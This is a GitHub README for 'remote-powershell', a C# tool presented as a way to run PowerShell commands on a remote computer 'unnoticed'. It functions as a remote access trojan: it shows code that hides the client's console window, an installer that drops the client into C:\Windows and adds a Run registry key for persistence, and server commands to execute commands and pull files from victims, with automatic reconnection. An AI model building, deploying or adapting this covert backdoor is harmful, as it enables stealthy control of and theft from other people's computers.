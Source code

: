 # remote-powershell

It is a terminal-based application that allows you to execute commands on a remote computer in PowerShell unnoticed.

The application is divided into two main sections: client and server. And there are also special versions of sections that have additional functionality. Each of the sections and versions is briefly described below, as well as a short guide on how to set them up.

## server 

[Click to view](https://github.com/shead0shead/remote-powershell/tree/main/server)

The server folder contains all the files related to the part of the program that should be executed on the device from which the commands will be sent.

Just change the IP and Port to the one you need and run the program while waiting for connections.

```csharp
// Change IPAddress.Any (IP) and 8802 (Port) to the one you need
TcpListener tcpListener = new TcpListener(IPAddress.Any, 8802);
```

| Command           | Description                                                                  | Syntax                        | Aliases  |
| ----------------- | ---------------------------------------------------------------------------- | ----------------------------- | -------- |
| execute           | Sends and executes the command you specified on the remote client's computer | execute [client-id] [command] | exec, !  |
| download          | Downloads the file you specified from a remote client's computer             | download [client-id] [path]   | dload, + |
| connection list   | Gives a list of all active remote connections                                | connection list               |          |
| connection remove | Forcibly disconnects the specified remote client from the server             | connection remove [client-id] |          |
| clear             | Clears the terminal                                                          | clear                         | clr      |
| quit              | Closes the application                                                       | quit                          | exit     |

Despite the fact that the disconnect command forcibly disconnects the remote client from the server, the automatic reconnection function in the client can still restore connections after a while.

## client

[Click to view](https://github.com/shead0shead/remote-powershell/tree/main/client)

The client folder contains all the files related to the part of the program that should be executed on the device to which the commands will be sent and executed.

Just change the IP and Port to the ones you installed on the server and run the program on another device.

```csharp
string host = "127.0.0.1"; // Change 127.0.0.1 (IP) to the one you need
int port = 8802;           // Change 8802 (Port) to the one you need
```

If you don't want the application to be automatically hidden after launch, delete the code shown below.

```csharp
[DllImport("user32.dll")]
static extern bool ShowWindow(IntPtr hWnd, int nCmdShow);

[DllImport("kernel32.dll")]
static extern IntPtr GetConsoleWindow();

const int SW_HIDE = 0;
const int SW_SHOW = 5;

var handle = GetConsoleWindow();
ShowWindow(handle, SW_HIDE);
```

You can also delete only the last line shown, this will also make the app visible after launch.

Please note that if you use services that will help you expand your local network, such as ngrok, then you may have problems reconnecting the client to the server after it is turned off, since the connection for the client will remain active.

## client-and-installer

[Click to view](https://github.com/shead0shead/remote-powershell/tree/main/client-and-installer)

Client-and-installer is a version of the application that, when launched, automatically installs the client on a remote computer and adds it to Windows Startup.

```csharp
// Instead of "C:\Windows\client.exe" enter the path where the hidden client will be installed
if (Environment.ProcessPath != @"C:\Windows\client.exe")
{
    // Instead of "C:\Windows\client.exe" enter the path where the hidden client will be installed
    string path = @"C:\Windows\client.exe";
    ...
}
```

Сlient-and-installer automatically adds the application to Windows startup, if you want to remove it, then go to the Program.cs file in the client-and-installer folder and remove all lines from 15th to 17th.

```csharp
// Autorun code
RegistryKey registry;
registry = Registry.CurrentUser.CreateSubKey("Software\\Microsoft\\Windows\\CurrentVersion\\Run\\", true);
registry.SetValue("client", @"C:\Windows\client.exe");
```
